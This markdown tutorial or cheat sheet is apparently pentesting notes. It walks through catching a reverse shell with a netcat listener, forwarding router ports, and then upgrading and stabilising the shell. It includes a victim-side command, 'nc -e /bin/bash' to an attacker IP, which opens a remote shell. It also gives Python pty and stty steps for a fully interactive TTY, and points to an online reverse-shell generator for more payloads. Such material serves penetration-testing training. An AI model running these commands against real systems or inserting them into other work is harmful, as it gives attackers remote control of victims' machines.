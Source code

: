 #### Setting Up a Listening Port with Netcat

-   - **Attacker's Command**:
  ```shell
  nc -nlvp 11111
  ```

- **Explanation**:
  - `nc`: Netcat, a versatile tool for network connections.
  - `-n`: No DNS or service lookups.
  - `-l`: Listening mode for incoming connections.
  - `-v`: Verbose mode for detailed information.
  - `-p 11111`: Specifies the listening port (11111 in this example).

- **Use Case**:
  - Ideal for setting up a listener after exploiting vulnerabilities, such as command injection, to catch reverse shells from the target machine.


#### Setting Up Port Forwarding

- **Port Forwarding Requirement**:
  - For reverse shells to work, especially over the internet, setting up port forwarding on your router is essential.
  - **Process**:
    - Configure your router to forward an external port (e.g., 4444) to the internal IP and port of the machine where your listener (netcat) is running.
    - This ensures that when the reverse shell is initiated by the target, it can reach your listener through the router.

---
#### Reverse Shell Setup and Upgrade

- **Reverse Shell Introduction**:
  - A method to control a victim's machine by making it send a shell back to the attacker's machine. It's crucial for situations where direct connection to the victim's network is not possible.

 ### - **Victim's Command**:
 
 ```shell
   nc -e /bin/bash [10.10.0.25] 11111
```
 
  - **Explanation**:
   The attacker listens on their machine, while the victim's machine initiates a connection with a bash shell.

#### Types of Reverse Shells

- **Variety in Reverse Shells**:
  - There are many types of reverse shells, each leveraging different tools and languages. It's important to remember that if one method does not work in a given scenario, you can always try another. A useful resource for exploring various reverse shell options is [Revshells.com](https://www.revshells.com/). This website offers a wide range of reverse shell techniques and command examples, allowing you to select and customize the one that best fits your testing environment.

---
- **Shell Upgrade**:
  - Upgrading to a more interactive shell can provide enhanced control and stability.
  - **Method**: Using Python.
   - **Command**:

Here I am looking for what ver of python in on the system

```shell
python -V
python3 -V
```

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


- **Explanation**: 
   This spawns a new bash shell for a more interactive environment.

   Use this command if Python is available. It spawns a bash shell.
  - **Without Python**:
  
```shell
SHELL=/bin/bash script -q /dev/null
```
  
  Use this alternative if Python is not installed.

- **Backgrounding and Configuring the Shell**:
  - **Background the Shell**:
   - Press `Ctrl + Z` to background the shell.
  - **Enable Raw Input**:
```shell
stty raw -echo; fg
```

   This command configures the terminal to send raw input to the reverse shell.
  - **Reset the Terminal**:
```shell
reset
```

If asked for the TERM, use `xterm-256color` or your attacker machine's `$TERM` value.


- **Terminal Configuration**:
  - **Validate Terminal Type**:
   ```shell
   echo $TERM
   export TERM=xterm-256color
   echo $TERM
   ```
   This ensures the terminal type is correctly set.

  - **Configure Shell for User**:
  
   ```shell
   echo $SHELL
   export SHELL=/bin/bash
   echo $SHELL
   ```
  
  - **Adjust Screen Size**:
  
   ```shell
   echo $TERM && tput lines && tput cols  # Run on attacker too find size
   stty rows 20 columns 80               # Run on victim
   ```

  Adjust the victim's shell size to match the local machine's shell size. This prevents word wrap distortion in tools like nano and vim.


- **Notes**:
  - In some cases, the terminal size for shell and text editors like nano/vim may not align. Use the `w` command to adjust the size through trial and error.
  - A fully functional shell should be resilient, where even sending `^C` (Ctrl + C) does not terminate the shell.

#### Additional Shell Information

- Netcat (`nc`) may not be available on all machines, and its `-e` option is often disabled for security reasons.
- Alternative shells and methods are required in such cases, and choosing the right one depends on the target environment.

